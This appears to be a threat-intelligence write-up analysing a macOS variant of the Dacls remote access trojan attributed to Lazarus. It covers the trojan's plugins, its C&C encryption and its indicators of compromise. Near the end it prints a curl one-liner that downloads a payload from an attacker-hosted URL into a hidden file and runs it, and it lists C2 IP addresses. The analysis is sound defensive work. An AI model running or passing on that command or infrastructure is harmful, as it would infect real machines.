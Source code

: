  Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227